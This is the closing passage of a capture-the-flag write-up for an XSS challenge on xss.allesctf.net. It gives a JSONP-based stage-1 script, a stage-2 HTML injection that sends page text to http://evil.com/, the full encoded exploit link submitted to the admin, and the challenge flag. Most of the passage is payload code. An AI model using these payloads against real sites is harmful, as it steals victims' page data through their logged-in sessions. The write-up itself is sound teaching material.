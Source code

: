 h=document.querySelector('ul a').href;fetch(h,{headers:{'Content-type':'application/x-www-form-urlencoded'},credentials:'include',mode:'no-cors',method:'POST',body:atob(location.hash.substring(1))});location.href=h;//
```
and our stage 2 payload (POST request to be base64 encoded) is:
```
bg=id"><img name="backgrounds" id="<script>fetch(`http://evil.com/`%2B$(`b`).text())</script>"><!--
```

Thus, the full link to be submitted, in all its glory, is:
```
http://xss.allesctf.net/?search=%3Cscript+src%3D%22%2Fitems.php%3Fcb%3Dh%3Ddocument.querySelector%28%27ul+a%27%29.href%3Bfetch%28h%2C%7Bheaders%3A%7B%27Content-type%27%3A%27application%2Fx-www-form-urlencoded%27%7D%2Ccredentials%3A%27include%27%2Cmode%3A%27no-cors%27%2Cmethod%3A%27POST%27%2Cbody%3Aatob%28location.hash.substring%281%29%29%7D%29%3Blocation.href%3Dh%3B%2F%2F%22%3E%3C%2Fscript%3E#Ymc9aWQiPjxpbWcgbmFtZT0iYmFja2dyb3VuZHMiIGlkPSI8c2NyaXB0PmZldGNoKGBodHRwOi8vZXZpbC5jb20vYCUyQiQoYGJgKS50ZXh0KCkpPC9zY3JpcHQ+Ij48IS0t
```

As a reward for submitting this link to the admin, the flag shows up on our simple http webserver and we are done.

The flag is `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`.
